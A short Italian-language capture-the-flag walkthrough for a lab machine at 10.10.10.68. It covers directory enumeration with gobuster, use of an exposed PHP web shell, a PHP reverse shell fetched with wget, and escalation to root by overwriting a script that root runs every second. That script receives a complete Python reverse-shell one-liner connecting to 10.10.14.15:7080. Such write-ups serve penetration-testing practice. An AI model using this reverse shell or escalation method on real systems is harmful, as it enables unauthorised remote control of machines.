 Cosa fare:

1) noto sito web porta 80
2) gobuster ovviamente, path interessante http://10.10.10.68/dev/phpbash.php
3) shell php con user
4) possiamo farci una reverse shell php, aggiungento un file con wget dal server del pc nostro con phpreverse

scriptmanager:
1) fare sudo -u scriptmanager bash
2) si ha quindi shell con scriptmanager
3) ci accorgiamo che in /scripts , c'è uno script che viene eseguito da root ogni secondo
4) modifichiamo lo script.py e ci mettiamo in ascolto su una porta; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",7080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
5)aspettiamo qualche secondo e siamo root.